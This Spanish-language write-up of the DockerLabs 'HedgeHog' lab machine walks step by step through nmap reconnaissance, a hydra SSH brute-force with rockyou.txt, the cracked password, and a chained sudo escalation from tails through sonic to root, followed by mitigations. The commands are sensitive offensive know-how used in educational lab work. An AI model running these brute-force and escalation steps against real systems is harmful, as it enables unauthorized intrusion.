

<h1 align="center">🦔 HedgeHog — Writeup</h1>

<p align="center">
  
</p>

<p align="center">
  
  
  
</p>

<p align="center">
  <b>Fuerza bruta SSH</b> &nbsp;→&nbsp; <b>Abuso de <code>sudo</code></b> &nbsp;→&nbsp; <b>Pivoteo entre usuarios</b> &nbsp;→&nbsp; <b>root</b>
</p>

---

## 📑 Índice

1. [Información de la máquina](#1-información-de-la-máquina)
2. [Reconocimiento](#2-reconocimiento)
3. [Acceso inicial (Foothold)](#3-acceso-inicial-foothold)
4. [Escalada de privilegios](#4-escalada-de-privilegios)
5. [Cadena de explotación en una línea](#5-cadena-de-explotación-en-una-línea)
6. [Mitigaciones](#6-mitigaciones)
7. [Herramientas utilizadas](#7-herramientas-utilizadas)

---

## 1. Información de la máquina

| Campo            | Valor                         |
|------------------|-------------------------------|
| Nombre           | HedgeHog                      |
| Plataforma       | DockerLabs                    |
| Autor            | AnkbNikas                     |
| Fecha            | 10/11/2024                    |
| IP objetivo      | `172.17.0.2`                  |
| Dificultad       | Muy fácil                     |
| Técnicas         | Fuerza bruta SSH, abuso de `sudo`, pivoteo entre usuarios |

> **Nota:** la IP depende de tu despliegue de Docker. Ajusta `172.17.0.2`
> a la que te asigne tu laboratorio.

---

## 2. Reconocimiento

### 2.1. Escaneo de puertos con Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```

Resultado:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Dos servicios expuestos:

- **22/tcp** — OpenSSH 9.6p1
- **80/tcp** — Apache 2.4.58

### 2.2. Enumeración del servicio web

La portada no tiene título ni contenido aparente. Al revisar el cuerpo
de la respuesta:

```bash
curl -s http://172.17.0.2/
```

```
tails
```

La página sirve únicamente un `index.html` de 6 bytes con la palabra
**`tails`**.

Se intentó fuzzing de directorios y de vhosts, sin resultados adicionales:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak
ffuf -u http://172.17.0.2/ -H "Host: FUZZ.bigshop.local" -w /usr/share/wordlists/dirb/common.txt -fs 6
```

> 💡 **Conclusión del reconocimiento:** la web no es un vector de explotación,
> sino una **pista**. La palabra `tails` es casi con seguridad un **nombre
> de usuario** del sistema.

---

## 3. Acceso inicial (Foothold)

### 3.1. Fuerza bruta de SSH

Con `tails` como usuario candidato, se lanza un ataque de diccionario
contra SSH usando `rockyou.txt`:

```bash
hydra -l tails -P /usr/share/wordlists/rockyou.txt -t 4 -f ssh://172.17.0.2
```

| Flag | Significado |
|------|-------------|
| `-l tails` | Usuario fijo |
| `-P rockyou.txt` | Diccionario de contraseñas |
| `-t 4` | 4 hilos (SSH limita las conexiones paralelas; más hilos generan falsos negativos) |
| `-f` | Detiene el ataque al primer acierto |

Credencial encontrada:

```
[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
```

### 3.2. Conexión por SSH

```bash
ssh tails@172.17.0.2
# password: 3117548331
```

```bash
tails@hedgehog:~$ id
uid=1002(tails) gid=1002(tails) groups=1002(tails)
```

> ⚠️ **Tip:** si al conectar aparece `REMOTE HOST IDENTIFICATION HAS CHANGED`,
> es porque el contenedor se redesplegó con una nueva clave de host.
> Elimina la antigua y reconecta:
> ```bash
> ssh-keygen -f ~/.ssh/known_hosts -R 172.17.0.2
> ```

---

## 4. Escalada de privilegios

### 4.1. Enumeración de permisos `sudo`

```bash
tails@hedgehog:~$ sudo -l
```

```
User tails may run the following commands on hedgehog:
    (sonic) NOPASSWD: ALL
```

El usuario `tails` puede ejecutar **cualquier comando como el usuario
`sonic`** y, además, **sin contraseña** (`NOPASSWD`).

### 4.2. Pivoteo `tails` → `sonic`

Se abre una shell como `sonic`:

```bash
tails@hedgehog:~$ sudo -u sonic /bin/bash
sonic@hedgehog:~$ id
uid=1001(sonic) gid=1001(sonic) groups=1001(sonic),27(sudo)
```

> Hecho importante: `sonic` pertenece al grupo **`sudo`**.

### 4.3. Enumeración de `sudo` como `sonic`

```bash
sonic@hedgehog:~$ sudo -l
```

```
User sonic may run the following commands on hedgehog:
    (ALL) NOPASSWD: ALL
```

`sonic` puede ejecutar **cualquier comando como cualquier usuario
(incluido root), sin contraseña**.

### 4.4. Escalada final `sonic` → `root`

```bash
sonic@hedgehog:~$ sudo /bin/bash
root@hedgehog:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### 🏆 ¡Root conseguido!

---

## 5. Cadena de explotación en una línea

Desde la sesión SSH inicial como `tails`, encadenando ambos saltos:

```bash
# tails -> sonic -> root
sudo -u sonic sudo /bin/bash
```

Verificación:

```bash
tails@hedgehog:~$ sudo -u sonic sudo id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 6. Mitigaciones

1. **Credenciales SSH débiles.** La contraseña `3117548331` cae ante un
   ataque de diccionario. Usar contraseñas robustas o, mejor,
   **autenticación por clave pública** y deshabilitar el login por
   contraseña (`PasswordAuthentication no`).

2. **Reglas `sudo` encadenadas y peligrosas.** El verdadero fallo es de
   configuración: un usuario sin privilegios (`tails`) puede suplantar a
   otro (`sonic`) que a su vez tiene `(ALL) NOPASSWD: ALL`. Esto equivale
   a dar root a `tails`.
   - Aplicar el **principio de mínimo privilegio** en `/etc/sudoers`.
   - Evitar reglas `NOPASSWD: ALL`.
   - Nunca permitir suplantar a cuentas que tengan privilegios de
     administrador.

3. **Divulgación de información.** La web revelaba un nombre de usuario
   válido. No exponer datos que faciliten la enumeración.

---

## 7. Herramientas utilizadas

- `nmap` — escaneo de puertos y servicios.
- `curl` / `gobuster` / `ffuf` — enumeración web.
- `hydra` — fuerza bruta de SSH.
- `ssh` — acceso remoto.
- `sudo -l` — enumeración de privilegios.

---

<p align="center">
  <i>Writeup con fines educativos sobre un entorno de laboratorio controlado (DockerLabs).<br>
  No utilizar estas técnicas contra sistemas sin autorización explícita.</i>
</p>
